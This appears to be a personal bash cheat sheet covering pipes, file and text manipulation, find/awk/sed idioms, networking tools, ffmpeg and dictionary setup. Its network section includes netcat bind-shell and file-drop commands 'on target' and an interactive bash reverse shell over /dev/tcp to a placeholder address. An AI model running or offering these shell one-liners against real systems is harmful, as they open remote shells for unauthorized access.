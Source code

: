 # features

    set -m      # enable job control, adds feautures to & (background job): jobs, ctrl+Z, fg, bg

# pipe

    # file descriptors: pointers to the sources of data that the programs are using.
    0   stdin   Standard Input
    1   stdout  Standard Output
    2   stderr  Standard Error

    # send stderr to stdout
    cmd 2>&1 | cat
    cmd >>file.txt 2>&1

    # send to file and stdout
    ls 2>&1 | tee /tmp/ls.txt

    # Command output as file
    diff <(echo "abc") <(echo "abd")

# user

    # rename
    usermod --login new_username old_username

# files

    # disk space
    # Filesystems disk space usage
    df -h
    # estimate directories space usage in [h]uman & [s]ummarized
    du -hs

    # apply a file attributes to b
    touch -r <a> <b>

    # sha1sum check
    echo <hash> <file> | sha1sum -c

    # get filename no extension
    "${pkey%.*}"

# conditions

    # check if command exists
    command=`which mycmd`
    if [ -z "$command" ]; then
        echo "Command not found"
    fi

# finding

    # something inside all directory files
    grep -Rn <word> <dir>

    # execute on all files inside a directory
    find <dir> -type f -execdir <command> {} \;

    # excluding directories
    # Find at / (path1 OR path2) if found dir return True & don't descend (-prune) OR you_data_to_find (rest).
    find / \( -path /sys -o -path /var \) -prune -o -type d -name site-packages

    # get nth line in file
    awk -v n=$MY_VAR 'NR == n' /tmp/file

    # replace strings
    grep -rl matchstring somedir/ | xargs sed -i 's/string1/string2/g'

    # replace filenames
    find . -name *_test.rb | sed -e "p;s/test/spec/" | xargs -n2 mv

    # loop over files with spaces
    find . -type f -name "*.priv" -print0 | while IFS= read -r -d '' file; do echo "$file"; done

# formating

    # make a patch
    diff -Naur file1 file2 > file.patch

    # lines to commas
    cat data.txt | paste -s -d, -

    # convert commas to spaces
    echo "toto,tata" | tr ',' ' '

    # remove blank lines
    awk '!/^$/' file

    # change print order
    echo "1 2 3" | awk '{print $3,$2,$1}'

    # upper to lower case
    echo "AA" | tr '[:upper:]' '[:lower:]'

    # remove head and tail banners
    cat ssh.key | tail -n +2 | head -n -1

# sorting

    # remove duplicate lines
    awk '!seen[$0]++' filename

    # uniques case independant (lower everything)
    cat file | awk '!arr[tolower($1)]++'

    # unique list based on column 1 and 3 (todo to lower case or different)
    sort -u -t : -k 1,1 -k 3,3 test.txt

# functions

    # counter
    echo 0 > /tmp/c; cat /tmp/c
    for i in seq 3 ; do
        i=$(cat /tmp/c) && echo $((i+1)) > /tmp/c && echo $(cat /tmp/c);
    done;

# network

    whois google.com
    dig +short google.com
    nslookup google.com

    tracepath <desitination>

    # network statistics
    Network statistics of upload & download rates
    vnstat -i wlan0

    # mount ssh directory
    sshfs roger@ipaddr:/home/toto /mnt/roger/
    fusermount -u mountpoint # unmount

    # wsharks: capture as non-root
    sudo usermod -a -G wireshark <username>
    sudo chmod 750 /usr/bin/dumpcap
    sudo setcap cap_net_raw,cap_net_admin+eip /usr/bin/dumpcap
    # logout

    # investigate sockets: all, numeric(noresolve), tcp, listen, processes
    ss -antlp

    # create file on target
    nc -vlpn 6666 > mybin
    
    # execute on target on connect
    nc -vlpn 6666 -e /bin/bash
    
    # send from source
    nc -vn <ip> 6666 < mybin

    # native /dev/tcp way
    { cat /tmp/toto >&3; cat <&3; } 3<>/dev/tcp/0.0.0.0/42070

    # http get with netcat
    cat <(echo "GET \file.txt HTTP/1.0" && echo) - | nc 1.1.1.1 2222 -vv

    # http get with native /dev/tcp way
    { printf >&3 'GET / HTTP/1.0\r\n\r\n'; cat <&3 } 3<>/dev/tcp/www.google.com/80

    # reverse shell listen
    nc -v -l -p 6666

    # reverse shell interactive bash on tcp:
    # >& (send bash output); 0>&1 (resend stdin to stdout); & (background)
    /bin/bash -i >& /dev/tcp/<ip>/6666 0>&1 &

# multimedia

    # converting with ffmpeg & avconv
    ffmpeg -fflags +genpts -i input.avi -map_metadata 0:s:0 -codec copy -f mp4 output.mp4   # removes metadata
    avconv -i in.webm -c:v libx264 -crf 20 -c:a aac -strict out.mp4

    # download files from url
    wget -r -P <destination> -A jpeg,jpg,bmp,gif,png,webm,webp

    # get open window info
    xprop -root | grep <window id>
    xprop -id <id>

# literacy

    # dictionnary
    mkdir -p /usr/share/stardict/dic/
    tar -xvjf downloaded_dictionnary.tar.bz2 -C /usr/share/stardict/dic
    tar -xvzf downlaoded_dictionnary.tar.gz -C /usr/share/stardict/dic
    sdcv word

- http://abloz.com/huzheng/stardict-dic/
- https://web.archive.org/web/20140917131745/
- http://abloz.com/huzheng/stardict-dic/dict.org/
